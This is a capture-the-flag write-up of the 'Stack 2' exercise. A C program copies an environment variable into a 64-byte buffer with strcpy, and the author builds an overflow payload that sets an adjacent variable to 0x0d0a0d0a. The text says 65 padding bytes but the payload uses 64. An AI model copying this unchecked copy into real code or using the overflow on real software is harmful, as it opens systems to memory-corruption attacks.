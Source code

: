 #[cd ../](../index.md)
# Stack 2
> Stack2 looks at environment variables, and how they can be set.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Fuzzin it
- We know we have to use stg about getenv(`man getenv` for literally nothing xd)
- Start setting a `GREENIE` environment variable to `test` (`export GREENIE=test` then execute `./stack2`)
  - Got nothing useful (`Try again, you got 0x00000000`)
- Set 64 `A` as GREENIE
  - Same
- Set 65 `A` as GREENIE
  - Gotcha `Try again, you got 0x00000041`

## Exploitin it
- We need `modified` to be `0x0d0a0d0a` and it's a lil endian elf again cuz `A` (41) popped on the end.
![ascii](ascii.png)  
`0x0d0a0d0a` is `0a0d0a0d` and these are `\n\r\n\r`. These 4 are special chars so we have to use python and work in base16 with them.

## The payload
GREENIE has to be  65 `A` + `\x0a\x0d\x0a\x0d`
```
export GREENIE=$(python -c 'print 64*"A" + "\x0a\x0d\x0a\x0d"')
./stack2
you have correctly modified the variable
```
BOOOOM GOT IT :D

